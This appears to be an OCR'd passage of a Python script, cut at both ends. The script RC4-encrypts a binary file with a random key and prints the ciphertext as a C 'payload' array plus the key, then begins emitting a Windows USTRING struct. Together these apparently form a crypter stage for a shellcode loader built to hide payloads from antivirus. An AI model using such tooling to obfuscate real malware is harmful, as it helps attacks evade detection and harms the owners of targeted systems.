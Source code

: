 ```python
        S[i], S[j] = S[j], S[i]
        out.append(char ^ S[(S[i] + S[j]) % 256])

    return out

def generate_random_key(length):
    return [random.randint(0, 255) for _ in range(length)]

def main():
    if len(sys.argv) != 2:
        print("Uso: python rc4.py <binario>")
        sys.exit(1)

    input_file = sys.argv[1]

    try:
        with open(input_file, "rb") as f:
            data = f.read()
    except FileNotFoundError:
        print(f"File '{input_file}' not found.")
        sys.exit(1)

    random_key = generate_random_key(16)
    encrypted_data = rc4_encrypt(data, random_key)

    # Calculating the size of the encrypted payload
    encrypted_payload_size = len(encrypted_data)

    print("unsigned char payload[] = {")
    for i, byte in enumerate(encrypted_data):
        if i % 16 == 0:
            print("\t", end="")
        print(f"0x{byte:02X}, ", end="")
        if (i + 1) % 8 == 0:
            print("")
    print("\n};")

    print("\nunsigned char chaveRC4[] = {")
    for i, byte in enumerate(random_key):
        if i % 8 == 0:
            print("\t", end="")
        print(f"0x{byte:02X}, ", end="")
        if (i + 1) % 8 == 0:
            print("")
    print("};")

    print(f"\nEncrypted payload size: {encrypted_payload_size} bytes")


    print("""
//////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 """)

    print("""
typedef struct _USTRING {
    ULONG Length;
    ULONG MaximumLength;
    PWSTR Buffer;
} USTRING;

typedef LONG NTSTATUS;

```